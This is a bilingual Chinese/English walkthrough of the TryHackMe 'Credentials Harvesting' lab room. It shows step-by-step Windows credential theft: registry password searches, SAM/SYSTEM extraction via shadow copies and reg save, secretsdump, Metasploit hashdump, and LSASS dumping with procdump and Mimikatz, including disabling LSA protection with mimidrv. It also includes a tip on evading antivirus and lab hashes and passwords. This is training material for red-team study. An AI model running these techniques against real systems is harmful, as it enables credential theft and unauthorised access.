


# Credentials Harvesting - 凭据收集

> [TryHackMe | Credentials Harvesting](https://tryhackme.com/room/credharvesting)
>
> Updated in 2023-12-14
>
> 将现代环境中采用的身份验证模型，应用到红色团队方法中。
>
> Apply current authentication models employed in modern environments to a red team approach.

## Introduction

### 欢迎来到凭据收集

这个房间讨论了红队人员利用获得的凭据执行横向移动并访问 AD 环境中的资源的基本知识。我们将展示如何获取、重用和冒充用户凭据。

凭据收集包括获取登录信息、账户名和密码等凭据的技术。它是从系统中提取凭据信息的技术，可以从明文文件、注册表、内存转储等各种位置获取凭据信息。

作为红队人员，获得合法凭据具有以下好处：

- 可以访问系统（横向移动）。
- 使我们的行为更难被检测。
- 提供了创建和管理账户的机会，有助于实现红队参与的最终目标。

### 学习目标

- 理解从本地 Windows（SAM 数据库）中提取凭据的方法。
- 学习如何访问 Windows 内存，并在本地和远程转储明文密码和认证票据。
- 介绍 Windows 凭据管理器以及如何提取凭据。
- 学习提取域控制器凭据的方法。
- 枚举本地管理员密码解决方案（LAPS）功能。
- 介绍导致获得凭据的 AD 攻击。

## Credentials Harvesting - 凭据收集

凭据收集是指获取用户和系统凭据的术语。这是一种寻找或窃取存储的凭据的技术，包括网络嗅探，攻击者捕获传输的凭据。

凭据可以以多种不同的形式出现，例如：

- 账户详细信息（用户名和密码）
- 包括 NTLM 等哈希值的哈希值。
- 认证票据：票据授予票据（TGT）、票据授予服务器（TGS）
- 任何有助于登录到系统的信息（私钥等）

一般来说，凭据收集可以分为两种类型：外部和内部。外部凭据收集很可能涉及钓鱼邮件和其他技术，诱使用户输入他的用户名和密码。如果想了解更多关于钓鱼邮件的内容，建议尝试 THM 的 “Phishing” 房间。通过内部网络获得凭据则使用不同的方法。

在这个房间中，重点是从内部角度收集凭据，即威胁行为者已经入侵了系统并获得了初始访问权限。

我们提供了一个配置为域控制器的 Windows Server 2019。为了跟上本房间讨论的内容，请部署这台机器并继续下一步任务。

你可以在浏览器中或使用以下凭据通过远程桌面（RDP）访问该机器。

```plaintext
Username: thm
Password: Passw0rd!
```

## Credential Access - 凭据访问

凭据访问是指对受损系统中发现凭据，获取用户凭据的对手可能利用这些凭据，以便重复使用或冒充用户身份。这是进行横向移动并访问其他资源（如其他应用程序或系统）的重要步骤。获取合法用户凭据比利用系统的 CVE 更可取。

如需更多信息，可以访问 MITRE ATT&CK 框架（ [TA0006](https://attack.mitre.org/tactics/TA0006/) ）。

凭据以不安全的方式存储在系统的各种位置：

- 明文文件
- 数据库文件
- 内存
- 密码管理器
- Enterprise Vaults
- Active Directory
- 网络嗅探

让我们对它们进行更详细的讨论！

### Clear-text files - 明文文件

攻击者可能会在本地或远程文件系统中搜索被入侵的机器，寻找凭据。明文文件可能包含用户创建的敏感信息，包括密码、私钥等。MITRE ATT&CK 框架将其定义为不安全的凭据：文件中的凭据（T1552.001）。

以下是攻击者可能感兴趣的一些明文文件类型：

- 命令历史记录
- 配置文件（Web 应用程序、FTP 文件等）
- 与 Windows 应用程序相关的其他文件（Internet 浏览器、电子邮件客户端等）
- 备份文件
- 共享文件和文件夹
- 注册表
- 源代码

作为一个历史命令的例子，PowerShell 会将执行的 PowerShell 命令保存在用户配置文件的历史文件中，路径如下：

```plaintext
C:\Users\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

也许值得检查用户正在处理什么内容或查找敏感信息。另一个例子是查找有趣的信息。例如，以下命令是在 Windows 注册表中查找关键字 “password”。

```shell title="Searching for the"password"keyword in the Registry"
c:\Users\user> reg query HKLM /f password /t REG_SZ /s
#OR
C:\Users\user> reg query HKCU /f password /t REG_SZ /s
```

### Database Files - 数据库文件

应用程序利用数据库文件来读取或写入设置、配置或凭据。数据库文件通常存储在 Windows 操作系统的本地。这些文件是检查和搜索凭据的优秀目标。如需更多信息，建议查看 THM 房间：Breaching AD。其中包含了从本地 McAfee Endpoint 数据库文件提取凭据的展示示例。

### Memory Dump - 内存提取

操作系统的内存是 Windows 操作系统、用户和其他应用程序的敏感信息丰富来源。数据在运行时或执行过程中加载到内存中。因此，访问内存仅限于完全控制系统的管理员用户。

以下是存储在内存中的敏感数据示例，包括：

- 明文凭据
- 缓存密码
- AD（Active Directory）票据

在这个房间中，我们将探讨如何访问内存并提取明文密码和认证票据。

### Password Managers - 密码管理器

密码管理器是一种用于存储和管理用户本地和互联网网站以及服务登录信息的应用程序。由于涉及用户数据，必须安全存储以防止未经授权的访问。

密码管理器应用的例子有：

- 内置密码管理器（Windows）
- 第三方：KeePass、1Password、LastPass

然而，这些应用程序中存在配置错误和安全漏洞，让对手能够访问存储的数据。在枚举阶段，可以使用各种工具来获取互联网浏览器和桌面应用程序中使用的密码管理器应用中的敏感数据。

这个房间将探讨如何访问 Windows 凭据管理器并提取密码。

### Active Directory

Active Directory 存储着大量与用户、群组、计算机等相关的信息。因此，枚举活动目录环境是红队评估的重点之一。Active Directory 具有稳固的设计，但管理员的配置错误使其容易受到各种攻击，正如本讨论中所展示的。

以下是一些可能泄露用户凭据的活动目录配置错误：

- 用户描述：管理员在新员工的描述中设置密码并将其保留，这使得账户容易遭受未经授权的访问。
- Group Policy SYSVOL：泄露的加密密钥让攻击者可以访问管理员账户。请查看任务 8，了解更多关于易受攻击版本 SYSVOL 的信息。
- NTDS：包含 AD 用户凭据，成为攻击者的目标。
- AD 攻击：配置错误使得 AD 易受各种攻击，我们将在任务 9 中进行讨论。

### 网络嗅探

获取对目标网络的初始访问使攻击者能够对本地计算机执行各种网络攻击，包括针对 AD 环境的攻击。对网络协议进行中间人攻击让攻击者能够在网络中创建伪造的或欺骗性的受信任资源，以窃取认证信息，例如 NTLM 哈希值。

:::info Answer the questions below

使用 “reg query” 命令，在 Windows 注册表中搜索 “flag” 关键字的数值。

<details>

<summary> 具体操作步骤 </summary>

```powershell
PS C:\Windows\system32> reg query HKLM /f password /t REG_SZ /s
......
HKEY_LOCAL_MACHINE\SYSTEM\THM
    flag    REG_SZ    password: 7tyh4ckm3

End of search: 508 match(es) found.
```

</details>

```plaintext
7tyh4ckm3
```

枚举我们提供的 AD 环境。受害者用户在描述部分的密码是什么？

<details>

<summary> 具体操作步骤 </summary>

```powershell
PS C:\Windows\system32> Get-ADUser -Filter * -Properties * | select Name,SamAccountName,Description
Name          SamAccountName Description
----          -------------- -----------
Administrator Administrator  Built-in account for administering the computer/domain
Guest         Guest          Built-in account for guest access to the computer/domain
krbtgt        krbtgt         Key Distribution Center Service Account
THM User      thm
THM Victim    victim         Change the password: Passw0rd!@#
thm-local     thm-local
Admin THM     admin
svc-thm       svc-thm
THM Admin BK  bk-admin
test          test-user
sshd          sshd
```

</details>

```plaintext
Passw0rd!@#
```

:::

## Local Windows Credentials - 本地 Windows 凭据

一般来说，Windows 操作系统提供两种类型的用户账户：本地用户和域用户。本地用户的详细信息存储在 Windows 文件系统中，而域用户的详细信息存储在集中式的 Active Directory 中。这个任务讨论了本地用户账户的凭据，并演示了如何获取这些凭据。

### Keystrokes - 按键记录

键盘记录器是一种软件或硬件设备，用于监视和记录键盘输入活动。最初，键盘记录器是为了合法目的而设计，比如软件开发反馈或家长控制。然而，它们也可以被滥用来窃取数据。作为红队成员，在繁忙且交互式的环境中通过键盘记录器寻找凭据是一个不错的选择。如果我们知道一个受攻击的目标有一个已登录的用户，我们可以使用诸如 Metasploit 框架或其他工具来执行键盘记录。

我们在另一个 THM 房间有一个使用 Metasploit 利用用户键击的用例示例。欲了解更多信息，请查看 THM `Exploiting AD`（任务 5）。

### 安全账户管理器（SAM）

SAM 是 Microsoft Windows 数据库，包含诸如用户名和密码之类的本地账户信息。SAM 数据库以加密格式存储这些详细信息，以增加其难以被检索。此外，在 Windows 操作系统运行时，SAM 数据库无法被任何用户读取或访问。然而，有各种方式和攻击手段可以转储 SAM 数据库的内容。

首先，确保您已部署了提供的虚拟机，然后确认我们无法复制或读取 `c:\Windows\System32\config\sam` 文件：

```shell title="Confirming No Access to the SAM Database"
C:\Windows\system32>type c:\Windows\System32\config\sam
type c:\Windows\System32\config\sam
The process cannot access the file because it is being used by another process.

C:\Windows\System32> copy c:\Windows\System32\config\sam C:\Users\Administrator\Desktop\
copy c:\Windows\System32\config\sam C:\Users\Administrator\Desktop\
The process cannot access the file because it is being used by another process.
        0 file(s) copied.
```

### Metasploit's HashDump - 利用 Metasploit 进行哈希提取

第一种方法是使用内置的 Metasploit Framework 功能，hashdump，来获取 SAM 数据库内容的副本。Metasploit 框架使用内存代码注入到 LSASS.exe 进程中，以转储副本哈希值。欲了解更多关于 hashdump 的信息，您可以访问 [rapid7 博客](https://www.rapid7.com/blog/post/2010/01/01/safe-reliable-hash-dumping/) 。我们将在另一个任务中讨论直接从 LSASS.exe 进程转储凭据的方法！

```shell title="Dumping the SAM database content"
meterpreter > getuid
Server username: THM\Administrator
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:98d3b784d80d18385cea5ab3aa2a4261:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ec44ddf5ae100b898e9edab74811430d:::
CREDS-HARVESTIN$:1008:aad3b435b51404eeaad3b435b51404ee:443e64439a4b7fe780db47fc06a3342d:::
```

### Volume Shadow Copy Service - 卷影复制服务

另一种方法使用 Microsoft Volume Shadow Copy Service，它帮助在应用程序对卷进行读 / 写操作时执行卷备份。您可以访问 [Volume Shadow Copy Service - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) 以获取有关该服务的更多信息。

更具体地，我们将使用 wmic 来创建一个卷影副本。这必须通过具有管理员权限的命令提示符来完成，步骤如下：

1. 使用管理员权限运行标准的 cmd.exe 提示符。
2. 执行 wmic 命令以创建 C: 驱动器的影子卷副本。
3. 验证步骤 2 中创建的卷影副本是否可用。
4. 从步骤 2 中创建的卷中复制 SAM 数据库。

现在让我们应用上述内容，以管理员权限运行 cmd.exe。然后执行以下 wmic 命令：

```shell title="Creating a Shadow Copy of Volume C with WMIC"
C:\Users\Administrator>wmic shadowcopy call create Volume='C:\'
Executing (Win32_ShadowCopy)->create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ReturnValue = 0;
        ShadowID = "{D8A11619-474F-40AE-A5A0-C2FAA1D78B85}";
};
```

一旦命令成功执行，让我们使用 vssadmin，卷影复制服务的管理命令行工具，来列出并确认我们是否有 C: 卷的一个影子副本。

```shell title="Listing the Available Shadow Volumes"
C:\Users\Administrator>vssadmin list shadows
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Contents of shadow copy set ID: {0c404084-8ace-4cb8-a7ed-7d7ec659bb5f}
   Contained 1 shadow copies at creation time: 5/31/2022 1:45:05 PM
      Shadow Copy ID: {d8a11619-474f-40ae-a5a0-c2faa1d78b85}
         Original Volume: (C:)\\?\Volume{19127295-0000-0000-0000-100000000000}\
         Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
         Originating Machine: Creds-Harvesting-AD.thm.red
         Service Machine: Creds-Harvesting-AD.thm.red
         Provider: 'Microsoft Software Shadow Copy provider 1.0'
         Type: ClientAccessible
         Attributes: Persistent, Client-accessible, No auto release, No writers, Differential
```

输出显示我们已成功创建了 (C:) 的一个影子副本，路径为：`\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1` 。

如前所述，SAM 数据库使用 [RC4](https://en.wikipedia.org/wiki/RC4) 或 [AES](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard) 加密算法加密。要解密它，我们需要一个解密密钥，这个密钥也存储在文件系统中的 `c:\Windows\System32\Config\system` 文件中。

现在让我们将从我们生成的影子副本卷中复制 sam 和 system 两个文件到桌面上，步骤如下：

```shell title="Copying the SAM and SYSTEM file from the Shadow Volume"
C:\Users\Administrator>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam
        1 file(s) copied.

C:\Users\Administrator>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
        1 file(s) copied.
```

把这两个所需的文件用你喜欢的方法传输到 AttackBox（SCP 应该可以用）。

### 注册表文件

通过 Windows 注册表也可以转储 SAM 数据库内容。Windows 注册表还存储了 SAM 数据库内容的一份副本，供 Windows 服务使用。幸运的是，我们可以使用 reg.exe 工具保存 Windows 注册表的值。正如先前提到的，我们需要两个文件来解密 SAM 数据库的内容。确保使用管理员权限运行命令提示符。

```shell title="Save SAM and SYSTEM files from the registry"
C:\Users\Administrator\Desktop>reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
The operation completed successfully.

C:\Users\Administrator\Desktop>reg save HKLM\system C:\users\Administrator\Desktop\system-reg
The operation completed successfully.

C:\Users\Administrator\Desktop>
```

这次我们将使用 Impacket 工具之一：`secretsdump.py` 进行解密，它已经安装在 AttackBox 上。Impacket SecretsDump 脚本可以使用不同的技术从本地和远程系统中提取凭据。

将 SAM 和 system 文件移动到 AttackBox，并运行以下命令：

```shell title="Decrypting SAM Database using Impacket SecretsDump Script Locally"
user@machine:~# python3.9 /opt/impacket/examples/secretsdump.py -sam /tmp/sam-reg -system /tmp/system-reg LOCAL
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:98d3a787a80d08385cea7fb4aa2a4261:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```

请注意，我们使用了从 Windows 注册表中提取的 SAM 和 System 文件。`-sam` 参数用于指定从 Windows 机器转储的 sam 文件的路径。`-system` 参数用于系统文件的路径。在命令的末尾使用了 `LOCAL` 参数，以解密本地 SAM 文件，因为这个工具处理其他类型的解密。

请注意，如果我们将输出与 Metasploit 的 Hashdump 得到的 NTLM 哈希值进行比较，结果是不同的。原因是其他账户属于 Active Directory，它们的信息未存储在我们转储的 System 文件中。要解密它们，我们需要从 Windows 文件中转储 SECURITY 文件，其中包含解密 Active Directory 账户所需的文件。

一旦获得 NTLM 哈希值，我们可以尝试使用 Hashcat 破解它们（如果它们是可猜测的），或者可以使用不同的技术使用这些哈希值冒充用户。

:::info Answer the questions below

按照本任务讨论的技术来转储 SAM 数据库文件的内容。管理员账户的 NTLM 哈希是什么？

<details>

<summary> 具体操作步骤 </summary>

创建卷影复制卷之后，复制 SAM 数据库文件

```shell
c:\Users\thm\Desktop>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system .\system               1 file(s) copied.
c:\Users\thm\Desktop>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam .\sam                     1 file(s) copied.
```

将两个文件提取到本地之后，进行解密

```shell
┌─[randark@randark-Parrot]─[~/tmp/Credentials-Harvesting]
└──╼ $impacket-secretsdump -sam ./sam -system ./system LOCAL
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:98d3a787a80d08385cea7fb4aa2a4261:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```

</details>

```plaintext
98d3a787a80d08385cea7fb4aa2a4261
```

:::

## Local Security Authority Subsystem Service (LSASS) - 本地安全性子系统服务（LSASS）

### 什么是 LSASS

本地安全权限服务器服务（LSASS）是 Windows 进程，负责处理操作系统安全策略并在系统上执行它。它验证登录的账户，并确保密码、哈希和 Kerberos 票据的有效性。Windows 系统将凭据存储在 LSASS 进程中，使用户能够在连接时无需每次输入凭据即可访问网络资源，例如文件共享、SharePoint 站点和其他网络服务。

因此，LSASS 进程是红队成员的一个重要目标，因为它存储着关于用户账户的敏感信息。LSASS 通常被滥用来转储凭据，以提升权限、窃取数据或横向移动。幸运的是，如果我们拥有管理员权限，我们可以转储 LSASS 的进程内存。Windows 系统允许我们创建一个转储文件，即给定进程的快照。这可以通过桌面访问（图形界面）或命令提示符来完成。这种攻击在 MITRE ATT＆CK 框架中被定义为 “[OS Credential Dumping: LSASS Memory (T1003)](https://attack.mitre.org/techniques/T1003/001/) ”。

### 图形用户界面（GUI）

要使用图形界面转储任何正在运行的 Windows 进程，打开任务管理器，从 “详细信息” 选项卡中找到所需的进程，右键单击它，并选择 “创建转储文件”。

<div style={{textAlign:'center'}}>



</div>

一旦转储过程完成，将会弹出一个包含转储文件路径的消息。现在将文件复制并传输到 AttackBox 以离线提取 NTLM 哈希。

:::tip

如果我们在提供的虚拟机上尝试此操作，第一次运行时应该会出现错误，直到我们在本任务后面的 “受保护的 LSASS” 部分修复注册表值。

:::

将转储的进程复制到 Mimikatz 文件夹中。

```shell title="Copying the LSASS Dumped file"
C:\Users\Administrator>copy C:\Users\ADMINI~1\AppData\Local\Temp\2\lsass.DMP C:\Tools\Mimikatz\lsass.DMP
        1 file(s) copied.
```

### Sysinternals Suite

如果没有图形界面可用，另一种转储进程的方法是使用 ProcDump。ProcDump 是一个来自命令提示符的 Sysinternals 进程转储实用工具。SysInternals Suite 已经安装在提供的机器上，路径为：c:\Tools\SysinternalsSuite

我们可以指定要转储的运行中进程，即 lsass.exe，如下所示：

```shell title="Dumping the LSASS Process using procdump.exe"
c:\>c:\Tools\SysinternalsSuite\procdump.exe -accepteula -ma lsass.exe c:\Tools\Mimikatz\lsass_dump

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[09:09:33] Dump 1 initiated: c:\Tools\Mimikatz\lsass_dump-1.dmp
[09:09:33] Dump 1 writing: Estimated dump file size is 162 MB.
[09:09:34] Dump 1 complete: 163 MB written in 0.4 seconds
[09:09:34] Dump count reached.
```

:::tip

转储过程是写入磁盘的。转储 LSASS 进程是攻击者使用的已知技术。因此，防病毒产品可能会将其标记为恶意。在现实世界中，您可能需要更有创意地编写代码来加密或实施绕过防病毒产品的方法。

:::

### Mimikatz

Mimikatz 是一个知名工具，用于使用各种技术从内存中提取密码、哈希、PIN 和 Kerberos 票据。Mimikatz 是一个后期利用工具，可以进行其他有用的攻击，比如传递哈希、传递票据或构建 Golden Kerberos 票据。Mimikatz 处理操作系统内存以获取信息。因此，它需要管理员和系统权限才能转储内存和提取凭据。

我们将使用 `Mimikatz` 工具来提取 lsass.exe 进程的内存转储。我们已经为您提供了必要的工具，可以在 `c:\Tools\Mimikatz` 中找到。

请记住，LSASS 进程是以 SYSTEM 身份运行的。因此，为了访问用户的哈希值，我们需要系统或本地管理员权限。因此，打开命令提示符并以管理员身份运行。然后，执行以下 mimikatz 二进制文件：

```shell title="Runing mimikatz With Admin Privielges"
C:\Tools\Mimikatz> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Jul 10 2019 23:09:43
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             (vincent.letoux@gmail.com)
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz #
```

在转储缓存的凭据和哈希之前，我们需要启用 SeDebugPrivilege 并检查内存访问的当前权限。可以通过执行 `privilege::debug` 命令来完成，如下所示：

```shell title="Checking the Current Permission to Access Memory"
mimikatz # privilege::debug
Privilege '20' OK
```

一旦权限被赋予，我们就可以使用 `sekurlsa::logonpasswords` 从 `lsass.exe` 进程中转储所有缓存的密码和哈希。如果我们在提供的虚拟机上尝试这个操作，它将无法运行，直到我们在下一部分修复它。

```shell title="Dumping the Stored Clear-text Passwords"
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 515377 (00000000:0007dd31)
Session           : RemoteInteractive from 3
User Name         : Administrator
Domain            : THM
Logon Server      : CREDS-HARVESTIN
Logon Time        : 6/3/2022 8:30:44 AM
SID               : S-1-5-21-1966530601-3185510712-10604624-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : THM
         * NTLM     : 98d3a787a80d08385cea7fb4aa2a4261
         * SHA1     : 64a137cb8178b7700e6cffa387f4240043192e72
         * DPAPI    : bc355c6ce366fdd4fd91b54260f9cf70
...
```

Mimikatz 列出了大量关于账户和计算机的信息。如果我们仔细检查管理员用户的 Primary 部分，我们可以看到我们有一个 NTLM 哈希。

:::tip

要获取用户的哈希，用户（受害者）必须已登录到系统，并且用户的凭据已被缓存。

:::

### 受保护的 LSASS

2012 年，微软实施了 LSA 保护，以防止从内存中提取凭据。这个任务将展示如何禁用 LSA 保护并使用 Mimikatz 从内存中转储凭据。要启用 LSASS 保护，我们可以修改注册表中 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa` 下的 RunAsPPL DWORD 值为 1。

这些步骤与前面的部分类似，运行 Mimikatz 执行文件时需要管理员权限，并启用调试模式。如果 LSA 保护已启用，执行 “sekurlsa::logonpasswords” 命令时会出现错误。

```shell title="Failing to Dump Stored Password Due to the LSA Protection"
mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```

该命令返回一个 0x00000005 错误代码消息（访问被拒绝）。对我们来说很幸运，Mimikatz 提供了一个 mimidrv.sys 驱动程序，可以在内核级别上工作以禁用 LSA 保护。我们可以通过执行 "!+" 将其导入到 Mimikatz 中，方法如下：

```shell title="Loading the mimidrv Driver into Memory"
mimikatz # !+
[*] 'mimidrv' service not present
[+] 'mimidrv' service successfully registered
[+] 'mimidrv' service ACL to everyone
[+] 'mimidrv' service started
```

注意：如果遇到 `isFileExist` 错误，请退出 Mimikatz，转到 `C:\Tools\Mimikatz\` ，然后再次运行命令。

一旦驱动程序加载完成，我们可以通过执行以下 Mimikatz 命令来禁用 LSA 保护：

```shell title="Removing the LSA Protection"
mimikatz # !processprotect /process:lsass.exe /remove
Process : lsass.exe
PID 528 -> 00/00 [0-0-0]
```

现在，如果我们再次尝试运行 “sekurlsa::logonpasswords” 命令，它应该能够成功执行，并显示内存中的缓存凭据。

:::info Answer the questions below

是否启用了 LSA 保护？ （是 | 否）

如果是，请尝试删除保护并使用 Mimikatz 转储内存。 完成后，点击 “完成”。

<details>

<summary> 具体操作步骤 </summary>

切换到 Mimikatz 所在的文件夹，并启动 Mimikatz

```shell
PS C:\Tools\Mimikatz> .\mimikatz.exe
 .#####.   mimikatz 2.2.0 (x64) #19041 May 19 2020 00:48:59
.## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
## \ / ##       > http://blog.gentilkiwi.com/mimikatz
'## v ##'       Vincent LE TOUX             (vincent.letoux@gmail.com)
 '#####'        > http://pingcastle.com / http://mysmartlogon.com    ***/

mimikatz # privilege::debug
Privilege '20' OK
```

尝试转储哈希数据

```shell
mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```

于是加载驱动，并解除 LSA 保护

```shell
mimikatz # !+
[*] 'mimidrv' service not present
[+] 'mimidrv' service successfully registered
[+] 'mimidrv' service ACL to everyone
[+] 'mimidrv' service started

mimikatz # !processprotect /process:lsass.exe /remove
Process : lsass.exe
PID 832 -> 00/00 [0-0-0]
```

然后开始转储哈希数据

```shell
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 759898 (00000000:000b985a)
Session           : RemoteInteractive from 2
User Name         : thm
Domain            : THM
Logon Server      : CREDS-HARVESTIN
Logon Time        : 12/13/2023 11:24:17 AM
SID               : S-1-5-21-1966530601-3185510712-10604624-1114
        msv :
        [00000003] Primary
        * Username : thm
        * Domain   : THM
        * NTLM     : fc525c9683e8fe067095ba2ddc971889
        * SHA1     : e53d7244aa8727f5789b01d8959141960aad5d22
        * DPAPI    : cd09e2e4f70ef660400b8358c52a46b8
        tspkg :
        wdigest :
        * Username : thm
        * Domain   : THM
        * Password : (null)
        kerberos :
        * Username : thm
        * Domain   : THM.RED
        * Password : (null)
        ssp :
        credman :
        [00000000]
        * Username : thm
        * Domain   : 10.10.237.226
        * Password : jfxKruLkkxoPjwe3
        [00000001]
        * Username : thm.red\thm-local
        * Domain   : thm.red\thm-local
        * Password : Passw0rd123

Authentication Id : 0 ; 759585 (00000000:000b9721)
Session           : RemoteInteractive from 2
User Name         : thm
Domain            : THM
Logon Server      : CREDS-HARVESTIN
Logon Time        : 12/13/2023 11:24:17 AM
SID               : S-1-5-21-1966530601-3185510712-10604624-1114
        msv :
        [00000003] Primary
        * Username : thm
        * Domain   : THM
        * NTLM     : fc525c9683e8fe067095ba2ddc971889
        * SHA1     : e53d7244aa8727f5789b01d8959141960aad5d22
        * DPAPI    : cd09e2e4f70ef660400b8358c52a46b8
        tspkg :
        wdigest :
        * Username : thm
        * Domain   : THM
        * Password : (null)
        kerberos :
        * Username : thm
        * Domain   : THM.RED
        * Password : (null)
        ssp :
        credman :
        [00000000]
        * Username : thm
        * Domain   : 10.10.237.226
        * Password : jfxKruLkkxoPjwe3
        [00000001]
        * Username : thm.red\thm-local
        * Domain   : thm.red\thm-local
        * Password : Passw0rd123

Authentication Id : 0 ; 678103 (00000000:000a58d7)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 12/13/2023 11:24:14 AM
SID               : S-1-5-90-0-2

        msv :
        [00000003] Primary
        * Username : CREDS-HARVESTIN$
        * Domain   : THM
        * NTLM     : 6e17a79802aa273625c644ed8d95b6e3
        * SHA1     : 722056d8f1b29929bb8c00f034fbe06a2c9f3f46
        tspkg :
        wdigest :
        * Username : CREDS-HARVESTIN$
        * Domain   : THM
        * Password : (null)
        kerberos :
        * Username : CREDS-HARVESTIN$
        * Domain   : thm.red
        * Password : 98 02 46 a9 de 7e 7f 8c 77 41 cb 14 86 e6 7d e2 dd 79 9f 12 9f 63 15 81 b2 2b 91 7c fe dc 09 5b a4 63 0e e9 d4 d6 e6 53 f1 f8 cd 24 2f 0a e9 25 9c 63 2e d7 a5 97 85 67 cf a9 f1 e6 3e 7a c8 ba 16 f1 a7 fe ec 39 ac bc 31 3f 39 3b cb a9 00 38 6e e7 53 45 98 2c f5 0d 5f 23 a1 03 db e5 38 d8 97 dd 99 d5 ee 84 35 b5 d5 16 06 93 c7 92 6e e7 d7 40 d6 cc 21 20 3b 29 0f da 4e 58 7b 62 5c 0c d4 3c 57 e6 48 4c b8 91 db ba 65 10 49 a2 e1 c2 9b 76 59 e3 5c 42 80 2a d2 05 37 78 e3 64 87 03 13 4e 4b 82 19 c2 83 f2 0d a4 8a 5e 00 80 b3 c0 98 56 0c 5b 88 ba 81 51 77 4d 3b 5a 95 24 cc 25 95 15 63 09 62 a0 df 5e 6b c5 5e 91 d8 ef 51 cc 6c d6 55 e4 a1 53 19 28 2f 21 95 5b b0 53 eb 30 2e 98 53 88 6f 39 f3 a9 10 5b b4 90 60 51 8f f8
        ssp :
        credman :

Authentication Id : 0 ; 677023 (00000000:000a549f)
Session           : Interactive from 2
User Name         : UMFD-2
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 12/13/2023 11:24:13 AM
SID               : S-1-5-96-0-2

        msv :
        [00000003] Primary
        * Username : CREDS-HARVESTIN$
        * Domain   : THM
        * NTLM     : 6e17a79802aa273625c644ed8d95b6e3
        * SHA1     : 722056d8f1b29929bb8c00f034fbe06a2c9f3f46
        tspkg :
